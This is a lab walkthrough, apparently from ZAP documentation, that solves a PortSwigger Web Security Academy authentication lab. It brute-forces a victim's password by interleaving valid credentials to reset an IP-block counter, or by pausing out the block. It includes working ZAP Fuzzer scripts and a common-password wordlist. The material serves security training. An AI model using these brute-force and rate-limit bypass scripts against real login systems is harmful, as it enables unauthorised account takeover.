This article describes how to solve the PortSwigger lab, “[Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)”, using ZAP rather than Burp Suite. You can find this lab in the [Authentication vulnerabilities](https://portswigger.net/web-security/authentication) learning path at the PortSwigger Web Security Academy.

If you’re familiar with Burp Suite already, it might be helpful to take a look at the [Burp to ZAP Feature Map](/docs/burp-to-zap-feature-map/) for a mapping of Burp features to ZAP equivalents. However, this article assumes little to no familiarity with ZAP, and I’ve attempted to make it as easy as possible to follow along.

## Prerequisites

To continue with the rest of the article, you’ll need the following:

1. A [PortSwigger Academy](https://portswigger.net/web-security) account
2. A [ZAP](/download/) installation
3. Basic JavaScript knowledge (See [Scripts](/docs/desktop/start/features/scripts/) for other scripting languages you can use in ZAP)

If you’re all set, let’s jump in!

## Have Username, Want Password

We’ll begin with a review of the lab’s instructions:

> This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.
> 
> - Your credentials: `wiener:peter`
> - Victim's username: `carlos`
> - [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

Brute-force protection is especially important for applications that depend entirely on password-based authentication. Without additional guard rails like multi-factor authentication (MFA), an attacker who can make multiple or unlimited guesses of users’ login credentials could eventually gain access to their accounts.

However, poor implementation can undermine even the best defense mechanisms. If developers make incorrect assumptions about how users will interact with their application, they may unintentionally introduce vulnerabilities that attackers can exploit.

This can be in the form of a logic flaw — a vulnerability that allows users to manipulate normal application functionality or workflow to achieve results the developer neither intended nor expected.

In this lab, we’ll exploit a logic flaw to access another user’s account. The lab provides us with a specific username, “carlos”. So, we don’t need to guess a valid username — we can focus on brute-forcing Carlos’ password.

Visit [the lab page](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block) and click “Access the Lab” to launch the test site. The URL for the lab will look something like `https://0a19000b0319d4b784b7a40400f800ed.web-security-academy.net/`. You’ll want to copy it.

For eagle-eyed readers, you may notice that the URLs in the screenshots vary. This is because multiple lab instances were used over the course of writing this article:


Now, let’s open the lab URL you just copied via ZAP. Click *Manual Explore* in the *Quick Start* tab:


Copy-paste the lab URL into the *URL to explore* field and launch your browser with the *Launch Browser* button. Or, use the browser icon in the main toolbar:



> [!NOTE]
> If you have any issues launching your browser from ZAP, see the following pages for help. ZAP uses add-ons to enhance its core features, including ones which provide webdrivers for interfacing with supported browsers. These are installed by default and expose some configurable options:
>
> 1. [How can I fix 'browser was not found'?](/faq/how-can-i-fix-browser-was-not-found/) - ZAP Docs (FAQ)
> 2. [Manual Explore](/docs/desktop/addons/quick-start/#manual-explore) - ZAP Docs
> 3. [Selenium](/docs/desktop/addons/selenium/) - ZAP Docs

Assuming you’ve opened the lab in a browser configured to proxy through ZAP, let’s try to log in with a random password. We want to capture a POST request we can work with in ZAP. I’ll try “randompass”. We’re notified that this is an “Incorrect password”, which is expected:



We’ll come back to the captured POST request in a bit. We want to explore the site’s brute-force protection mechanism to understand how it works and how we can bypass it.

## Probing the Defence

An app can defend against brute-force attacks in several ways. One of these is blocking IP addresses that have attempted — and failed — too many logins within a certain timeframe. With this approach, unblocking your IP might involve:

1. Waiting a fixed amount of time, after which you can attempt another login.
2. Changing your IP address.
3. Entering correct credentials. This requires mixing your own credentials at intervals into your wordlist.

You can potentially bypass rate-limiting and IP blocking in other ways, like making [multiple password guesses in a single request](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request). However, we’ll focus on the three methods listed above.

Based on the title of this lab, we’re dealing with an IP block, so we’ll attempt to bypass this. Let’s make a few requests in the Request Editor (ZAP’s equivalent of Burp Suite’s Repeater).

Head over to ZAP and open the POST request we captured earlier. You’ll find it in the Sites Tree under the *Sites* tab. It’ll look something like `POST:login()(password, username)`:



We want to see how many requests we can make in quick succession before our IP address gets blocked. After four login attempts, we get an error message: **“You have made too many incorrect login attempts. Please try again in 1 minute(s).”**

After one minute, we can indeed make more login attempts. The idea is that if we fail to log in three times in a row, the server activates an IP block. It then denies any more requests sent for the next minute.

If we enter our own credentials, `wiener:peter`, on every third login attempt, the IP block never activates. Each successful login resets the counter tracking the number of failed login attempts. We can keep going until we’ve tried enough passwords from our wordlist to find the right one for Carlos' account.

> [!NOTE]
> This bypass — taking advantage of a logic flaw to reset the failure counter — enables us to brute-force Carlos’ password and successfully solve this lab. Although not the point of the lab, we can also wait out the IP block since we’re dealing with only a few credentials. This is covered in “Method 2: Wait Out the IP Block”.

What about changing our IP address? I used the [`X-Forwarded-For`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Forwarded-For) header successfully in another lab. But the server here appears to block IPs based on the client's actual IP address (determined by the network layer rather than HTTP headers from the application layer), which makes sense in the context of rate-limiting. Rotating IP addresses via a proxy or VPN could work, but we won’t explore that here.

## Brute-forcing the Password

The default attack style of the ZAP Fuzzer when multiple payload positions are assigned a payload set is the [cluster bomb attack](https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/attack-types). (The ZAP Fuzzer is equivalent to Burp Suite’s Intruder.) A cluster bomb attack iterates through all possible combinations of the payloads. However, we want a [pitchfork attack](https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/attack-types) to run through our username and password lists simultaneously. So, we’re using a custom script below.

### Method 1: Interleave Wordlists With Valid Credentials

Based on our tests in the previous section, we need to mix our username and password lists with our own credentials, `wiener:peter`. The username list will then look like this:

```
carlos
carlos
wiener
carlos
carlos
wiener
carlos
```

The password list will look similar, with “peter” repeated every third line. If you haven’t already, copy the [passwords in the provided wordlist](https://portswigger.net/web-security/authentication/auth-lab-passwords):

```
123456
password
peter
12345678
qwerty
peter
123456789
```

I used [a script](https://gist.github.com/Wryhder/041c6d1bed5ab3433c8ea3dd3a49169b) to mix in the valid credentials, but you could use online text tools. After you have your username and passwords lists, create a new Payload Generator script. (You might wonder why we’re proceeding with creating a script instead of using the mixed lists directly. This is because we’ll create our payloads from pairs of usernames and passwords, rather than assign each list to different positions. This gives us a pitchfork, rather than a cluster bomb, attack.)

#### Step 1: Create a New Payload Generator Script

[Payload generators](/docs/desktop/addons/fuzzer/payloads/) in ZAP generate the inputs sent to the target site you’re attacking. There are generators for strings, numbers, and other data types. You can also create custom scripts to generate specific payloads that the default generators don’t cover.

Create a new Payload Generator script by right-clicking the “Payload Generator” type in the *Scripts* tab and hitting *New Script*. Or, use the *New Script* icon in the top-left corner:



This brings up the *New Script* dialog. Here, you can enter the name of your script, like *pitchfork_username_password.js*. You can also set a script type manually if you didn’t create your script by right-clicking directly on the type. If you created the script from the “Payload Generator” type, the type field should be populated.

Next, select “Graal.js” as the script engine:


Depending on the version of ZAP you have installed, you may have either the Nashorn and Graal.js JavaScript engines available, or just Graal.js. Any engine you have available works. However, our script is written for Graal.js. So if you’re using Nashorn or another JavaScript engine, you might need to modify the script. See [Migration Guide from Nashorn to GraalJS](https://www.graalvm.org/latest/reference-manual/js/NashornMigrationGuide/) for more details.

Finally, check the *Enabled* checkbox. You can leave everything else as-is.

#### Step 2: Generate the Payload Sets

Once you’ve saved your options and created a new script, navigate to the *Script Console* to view the new file. Clear it and enter the following code. You can read the wordlists from a file, but the sample below reads them from array literals:

```js
// Auxiliary variables/constants for payload generation
var count = 0;
var MID = "&password=";

var usernames = [
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
];

var passwords = [
    "123456",
    "password",
    "peter",
    "12345678",
    "qwerty",
    "peter",
    "123456789",
    "12345",
    "peter",
    "1234",
    "111111",
    "peter",
    "1234567",
    "dragon",
    "peter",
    "123123",
    "baseball",
    "peter",
    "abc123",
    "football",
    "peter",
    "monkey",
    "letmein",
    "peter",
    "shadow",
    "master",
    "peter",
    "666666",
    "qwertyuiop",
    "peter",
    "123321",
    "mustang",
    "peter",
    "1234567890",
    "michael",
    "peter",
    "654321",
    "superman",
    "peter",
    "1qaz2wsx",
    "7777777",
    "peter",
    "121212",
    "000000",
    "peter",
    "qazwsx",
    "123qwe",
    "peter",
    "killer",
    "trustno1",
    "peter",
    "jordan",
    "jennifer",
    "peter",
    "zxcvbnm",
    "asdfgh",
    "peter",
    "hunter",
    "buster",
    "peter",
    "soccer",
    "harley",
    "peter",
    "batman",
    "andrew",
    "peter",
    "tigger",
    "sunshine",
    "peter",
    "iloveyou",
    "2000",
    "peter",
    "charlie",
    "robert",
    "peter",
    "thomas",
    "hockey",
    "peter",
    "ranger",
    "daniel",
    "peter",
    "starwars",
    "klaster",
    "peter",
    "112233",
    "george",
    "peter",
    "computer",
    "michelle",
    "peter",
    "jessica",
    "pepper",
    "peter",
    "1111",
    "zxcvbn",
    "peter",
    "555555",
    "11111111",
    "peter",
    "131313",
    "freedom",
    "peter",
    "777777",
    "pass",
    "peter",
    "maggie",
    "159753",
    "peter",
    "aaaaaa",
    "ginger",
    "peter",
    "princess",
    "joshua",
    "peter",
    "cheese",
    "amanda",
    "peter",
    "summer",
    "love",
    "peter",
    "ashley",
    "nicole",
    "peter",
    "chelsea",
    "biteme",
    "peter",
    "matthew",
    "access",
    "peter",
    "yankees",
    "987654321",
    "peter",
    "dallas",
    "austin",
    "peter",
    "thunder",
    "taylor",
    "peter",
    "matrix",
    "mobilemail",
    "peter",
    "mom",
    "monitor",
    "peter",
    "monitoring",
    "montana",
    "peter",
    "moon",
    "moscow",
    "peter",
];

// Match the length of the shorter payload set
// (either usernames or passwords), if unequal.
var NUMBER_OF_PAYLOADS =
    usernames.length <= passwords.length ? usernames.length : passwords.length;

/**
 * Returns the number of generated payloads, zero to indicate unknown number.
 * The number is used as a hint for progress calculations.
 *
 * @return {number} The number of generated payloads.
 */
function getNumberOfPayloads() {
    return NUMBER_OF_PAYLOADS;
}

/**
 * Returns true if there are still payloads to generate, false otherwise.
 *
 * Called before each call to next().
 *
 * @return {boolean} If there are still payloads to generate.
 */
function hasNext() {
    var hasMore = count < NUMBER_OF_PAYLOADS;
    if (!hasMore) {
        log("INFO", "All payloads have been generated.");
    }
    return hasMore;
}

/**
 * Returns the next generated payload.
 *
 * This method is called while hasNext() returns true.
 *
 * @return {string} The next generated payload.
 */
function next() {
    try {
        if (count >= NUMBER_OF_PAYLOADS) {
            throw new Error("No more payloads available.");
        }
        var payload = usernames[count] + MID + passwords[count];
        log("DEBUG", "Generated payload: " + payload);
        count++;
        return payload;
    } catch (err) {
        log("ERROR", "Payload generation failed: " + err.message);
        return "";
    }
}

/**
 * Resets the internal state of the payload generator, as if no calls to
 * hasNext() or next() have been previously made.
 *
 * Normally called once the method hasNext() returns false and while payloads
 * are still needed.
 */
function reset() {
    log("INFO", "Resetting payload generator.");
    count = 0;
}

/**
 * Releases any resources used for generation of payloads (for example, a file).
 *
 * Called once the payload generator is no longer needed.
 */
function close() {
    log("INFO", "Payload generator closed.");
}

/**
 * Logs messages at different levels (INFO, DEBUG, ERROR).
 *
 * @param {string} level - The log level.
 * @param {string} message - The message to log.
 */
function log(level, message) {
    print("[PayloadGenerator] [" + level + "] " + message);
}
```

As noted earlier, assigning the username and password payloads to separate positions results in a cluster bomb attack. So, our script generates payloads for just one position (based on [this Stackoverflow answer](https://stackoverflow.com/a/66613914)). The position, as we’ll see in the next step, includes both the username and password values. This means that the payloads generated look something like `carlos&password=randopass`:


This is why our script above has a `MID` variable set to `"&password="`. You can see the line generating the payloads in the `next` function:

```js
var payload = usernames[count] + MID + passwords[count];
```

All functions, except the `log` function, are part of a required interface that must be implemented for Payload Generator scripts. Most script types have specific interfaces that must be implemented to run successfully. You’ll usually run into an `Incorrect Implementation` error when attempting to use a script that does not implement the expected interface correctly:


> [!NOTE]
> Refer to the default templates for the interfaces required for each script type. You can find these in the Templates section of the Scripts tab. They include documentation comments describing each function and its parameters. You can also create new scripts from the templates. 

You can save the file now. Also, check that the script is enabled, as disabled scripts won’t be available for selection when needed. If you missed the *Enable* checkbox earlier, you can right-click the filename in the *Scripts* tab and select *Enable Script(s)*.

#### Step 3: Add the Payload

Now, we can bring up the Fuzzer dialog. Right-click the POST request we were working on in the Request Editor and select *Fuzz*. Alternatively, right-click the original captured POST request from the *Sites* tab and select *Attack* > *Fuzz*.

In the *Fuzzer Locations* tab, we’ll select the position we want to fuzz and add our payload. The fuzz position (or location) here, as discussed above, is most of the body starting from the username value. Highlight as shown to activate the *Add* button:


After you open the *Add Payload* dialog, you can add the Payload Generator script from the previous step. The default payload generator type is “Strings”. Change this to “Script” and select the appropriate script:



Save the payload and return to the main Fuzzer dialog. Then, run the Fuzzer with *Start Fuzzer*.

> [!IMPORTANT]
> You might notice that even though the payloads are generated correctly (as the logs in the script output panel show), the requests are sent in the wrong order. This causes an unexpected IP block early on. As a result, most of the requests are rejected with the message: `You have made too many incorrect login attempts. Please try again in 1 minute(s).`
>
> This is due to the Fuzzer’s concurrency settings. You can enable sequential execution by setting the number of execution threads to 1. However, this slows down the Fuzzer a great deal. An alternative is to throttle requests with a small delay of 100–200 milliseconds. See [Options Fuzzer screen](/docs/desktop/addons/fuzzer/options/) for more detail.

You can skip over the next section and head to [Have Username, Got Password](#have-username-got-password).

### Method 2: Wait Out the IP Block

This section explores brute-forcing Carlos’ password by waiting out the IP block. By waiting for the IP block to deactivate, we’re complying with the enforced rate limit. This isn’t much of an issue here since we’re dealing with just a few credentials.

To recap, the lab server activates an IP block for a minute after three failed login attempts. Any further requests sent within this minute are rejected. To wait out the block, we’ll use a [message processor](/docs/desktop/addons/fuzzer/dialogue/#message-processors-tab) script.

Message processors can control the fuzzing process and modify requests in real-time. As you might have noticed from the previous section, if we’d needed a per-request delay, we could have set it directly in the Fuzzer *Options* tab:



Since a per-request delay is not what we want, we’ll use our script to process our requests before they’re sent and add a delay after every three requests. The type of message processor we need is the Fuzzer HTTP Processor script. Let’s create it.

#### Step 1: Create a New Fuzzer HTTP Processor Script

Create a new Fuzzer HTTP Processor script from the *Scripts* tab. The process is the same as when we created the Payload Generator script earlier:



Enter the name of your script (e.g, *lockout-handler.js*). Then set the script type if you did not create it directly from the Fuzzer HTTP Processor type. As before, select “Graal.js” as the script engine.

#### Step 2: Implement the Delay Logic

Navigate to the *Script Console* to view the new file. Clear it if it’s not empty, and enter the following code:

```js
// Auxiliary variables/constants needed for processing.
var count = 1;

var Thread = Java.type("java.lang.Thread");

/**
* Processes the fuzzed message (payloads already injected).
*
* Called before forwarding the message to the server.
*
* @param {HttpFuzzerTaskProcessorUtils} utils - A utility object that contains functions that ease common tasks.
* @param {HttpMessage} message - The fuzzed message, that will be forward to the server.
*/
function processMessage(utils, message) {
    try {
        print(count);

        if (count % 3 === 0) {
            print("Pausing for activated IP block...");
            Thread.sleep(60000); // Pause for 60 seconds
        }
    } catch (error) {
        print("Error in processMessage: " + error.message);
        throw error;
    }

    count++;
}

/**
* Processes the fuzz result.
*
* Called after receiving the fuzzed message from the server.
*
* @param {HttpFuzzerTaskProcessorUtils} utils - A utility object that contains functions that ease common tasks.
* @param {HttpFuzzResult} fuzzResult - The result of sending the fuzzed message.
* @return {boolean} Whether the result should be accepted, or discarded and not shown.
*/
function processResult(utils, fuzzResult) {
    return true;
}

/**
* This function is called during the script loading to obtain a list of the names of the required configuration parameters,
* that will be shown in the Add Message Processor Dialog for configuration. They can be used
* to input dynamic data into the script, from the user interface
*/
function getRequiredParamsNames() {
    return [];
}

/**
* This function is called during the script loading to obtain a list of the names of the optional configuration parameters,
* that will be shown in the Add Message Processor Dialog for configuration. They can be used
* to input dynamic data into the script, from the user interface
*/
function getOptionalParamsNames() {
    return [];
}

```

As noted already, most script types need to implement a specific interface to run correctly. For our Fuzzer HTTP Processor type, this interface includes four functions. For our purpose, we’re only interested in `processMessage`. However, ensure that you implement the other three functions and that they return truthy values. (You can refer to the default template if needed.)

`processMessage` is executed on each message before it is sent to the server. This enables us to alter payloads as needed or to introduce delays between requests.

We didn’t need to use the `utils` and `message` parameters in `processMessage`. Still, it’s worth noting that they are injected by default when `processMessage` is called. This is similar to how the `resolve` and `reject` functions are passed as arguments to the executor function in the JavaScript Promise API. In other words, these parameters are not defined in the script’s global scope; their scope is limited to `processMessage`.

Since our script manages the entire fuzzing session and `processMessage` is executed on every message, we can use the `count` variable as an iteration counter. It tracks the number of times `processMessage` is called.  Or, in other words, how many requests the Fuzzer has processed. After every three requests, we pause for one minute before sending the next.

Finally, because ZAP runs on the Java Virtual Machine (JVM), we can access the Java API from guest languages like JavaScript. Depending on how you installed ZAP, you might have manually installed a JVM yourself beforehand, or it might have been installed automatically as a dependency. 

Our code sample above imports the `Thread` class using `Java.type('java.lang.Thread')`. We’ve used it to implement the one-minute delay between requests. For more details on available JavaScript features and the Java APIs accessible in your script, see [GraalJS Compatibility](https://www.graalvm.org/latest/reference-manual/js/JavaScriptCompatibility/) and [Java Interoperability](https://www.graalvm.org/jdk21/reference-manual/js/JavaInteroperability/).

If you’ve modified the script as stated, save it and ensure it is enabled. Aside from right-clicking the script's name in the Scripts tab, you can also enable it with the gray cross-in-circle icon in the *Script Console* tab (it is a green check icon when the script is enabled).

#### Step 3: Add the Payload

xt, let’s open the Fuzzer dialog. Right-click the captured POST request from the *Sites* tab and select *Attack* > *Fuzz*. In the *Fuzzer Locations* tab, we’ll select the password value as the position we want to fuzz. Highlight it to activate the *Add* button:



In the *Add Payload* dialog, keep the default “Strings” payload generator type. Then, copy the [password wordlist](https://portswigger.net/web-security/authentication/auth-lab-passwords) from the lab page and paste it into the *Contents* field:



Save the payload and return to the main Fuzzer dialog.

#### Step 4: Add the Message Processor Script

Finally, switch to the *Message Processors* tab. This is where we will add our IP block handler script. Click *Add* to bring up the *Add Message Processor* dialog and select your script:



You can optionally move the script to the top of the processor list. Then, run the Fuzzer.

## Have Username, Got Password

Once the Fuzzer is done, we can inspect the results. We’re looking for indications of a successful login. So, we’ll sort the results in descending order using the status code column (simply “*Code”* in the UI).

> [!NOTE]
> Both of these solutions are valid. As you might have noticed if you’ve solved a lab more than once, different lab instances can have different password solutions. So, you could see different passwords than shown below.

### Method 1: Interleave Wordlists With Valid Credentials

Our sorted results from our bypass with valid credentials show multiple `302 Found` results. This is because of the logins to our own account. So, we want to search the *Payloads* column for a payload that includes “carlos”:



Voila! Carlos’ password is “soccer”. Log in with the password to solve the lab.

### Method 2: Wait Out the IP Block

For the second method, we also want to sort the results in descending order by status code. At the top of our sorted results is a `302 Found`:


This is a different lab instance than used with the bypass method. The password here is “biteme”, as we can see either through the *Payloads* column or in the request body:



We’ll confirm by logging in to Carlos’ account.

## Takeaway

Rate-limiting with IP blocking is a common defense against brute-force attacks. But, it can be bypassed if implemented poorly. Understanding how attackers can exploit logic flaws to bypass security measures can help developers build more secure systems. Explore other labs to learn additional ways attackers can exploit authentication mechanisms and workflows. You can also find more [PortSwigger lab walkthroughs](/tags/portswigger-lab/) using ZAP in the Docs.

## Resources

1. [Authentication vulnerabilities](https://portswigger.net/web-security/authentication)
2. [Burp to ZAP Feature Map](/docs/burp-to-zap-feature-map/)
3. [PortSwigger Lab Walkthroughs With ZAP](/tags/portswigger-lab/)
4. [ZAP Docs](/docs/)
5. [Migration Guide from Nashorn to GraalJS](https://www.graalvm.org/latest/reference-manual/js/NashornMigrationGuide/)
6. [GraalJS Compatibility](https://www.graalvm.org/latest/reference-manual/js/JavaScriptCompatibility/)
7. [Java Interoperability](https://www.graalvm.org/jdk21/reference-manual/js/JavaInteroperability/)

_Image credit: [Pexels](https://www.pexels.com/photo/real-estate-concept-with-key-and-house-models-31424880/)._
